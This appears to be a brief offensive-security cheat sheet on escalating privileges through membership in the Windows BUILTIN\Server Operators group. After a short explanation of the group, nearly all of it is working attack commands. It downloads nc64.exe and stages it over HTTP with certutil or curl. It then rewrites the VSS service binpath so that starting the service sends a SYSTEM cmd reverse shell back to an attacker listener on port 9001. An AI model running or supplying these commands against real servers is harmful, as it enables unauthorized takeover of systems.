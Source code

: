 # BUILTIN\Server Operators
On a Windows Server, BUILTIN\Server Operators is a local built-in group. Its intended purpose is to give trusted users significant administrative control over the server itself, without making them full Domain Admins or local Administrators.

Think of them as the "senior janitorial staff" or "data center technicians" for a specific server. They aren't allowed to change the building's blueprints (domain policy), but they have the keys to every room (server) and can control all the equipment inside.

# Step By Step
1. Transfer the nc64.exe Binary.
2. vss service check.
3. Configure the command Execution.
4. Stop and start the service.

# Transfer Binary
```language
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
python3 -m http.server 80

curl http://ip:80/nc64.exe
certutil -urlcache -f http://ip:80/nc64.exe nc64.exe
```
# Check service and Configure the Command
```language
get-service vss       #service check

sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd ip  9001"       #configure it
or
sc.exe config vss binpath="C:\programdata\nc64.exe -e cmd.exe ip 9001"
```
# Start listner and service
```language
rlwrap nc -lvnp 9001

sc.exe start vss
```
